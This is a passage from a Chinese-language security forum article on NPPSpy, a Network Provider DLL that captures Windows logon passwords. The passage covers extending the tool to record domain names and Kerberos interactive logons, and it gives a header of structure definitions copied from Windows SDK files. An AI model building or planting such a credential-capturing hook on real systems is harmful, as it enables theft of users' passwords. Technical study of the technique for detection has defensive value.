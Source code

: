 ### 小结

ok，小结一下啊，至此，我们已经学习完了，整个利用的大概原理，作者`NPPSpy.c`的代码为啥要这样写，注册表为啥要这样修改。唯一的不足就是`WNNC_CRED_MANAGER`是作者测出来的。。。

0x05 增强
-------

原版的`NPPSpy.c`，一是没有把 `LogonDomainName` 加上，而且没有处理`Kerberos:Interactive`，这里我都加上了。实现起来也很简单，给`NPlogonNotify`函数加上一些小判断就行。

![image-20211220172100888](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e1f51aac317e2bbb7344b83ca9f7e68af6548fe0.png)

里面的`_KERB_INTERACTIVE_LOGON`定义，可以参考上面的分析，直接去`NTSecAPI.h`里面 copy 出来就行

`framework.h`如下

```cpp
#pragma once

#define WIN32_LEAN_AND_MEAN             // 从 Windows 头文件中排除极少使用的内容
// Windows 头文件
#include <windows.h>
#include <iostream>
using namespace std;

// from npapi.h
#define WNNC_SPEC_VERSION                0x00000001
#define WNNC_SPEC_VERSION51              0x00050001
#define WNNC_NET_TYPE                    0x00000002
#define WNNC_START                       0x0000000C
#define WNNC_WAIT_FOR_START              0x00000001

//from ntdef.h
typedef struct _UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

// from NTSecAPI.h
typedef enum _MSV1_0_LOGON_SUBMIT_TYPE
{
    MsV1_0InteractiveLogon = 2,
    MsV1_0Lm20Logon,
    MsV1_0NetworkLogon,
    MsV1_0SubAuthLogon,
    MsV1_0WorkstationUnlockLogon = 7,
    MsV1_0S4ULogon = 12,
    MsV1_0VirtualLogon = 82,
    MsV1_0NoElevationLogon = 83,
    MsV1_0LuidLogon = 84,
} MSV1_0_LOGON_SUBMIT_TYPE, * PMSV1_0_LOGON_SUBMIT_TYPE;

// from NTSecAPI.h
typedef struct _MSV1_0_INTERACTIVE_LOGON
{
    MSV1_0_LOGON_SUBMIT_TYPE MessageType;
    UNICODE_STRING LogonDomainName;
    UNICODE_STRING UserName;
    UNICODE_STRING Password;
} MSV1_0_INTERACTIVE_LOGON, * PMSV1_0_INTERACTIVE_LOGON;

// from NTSecAPI.h
```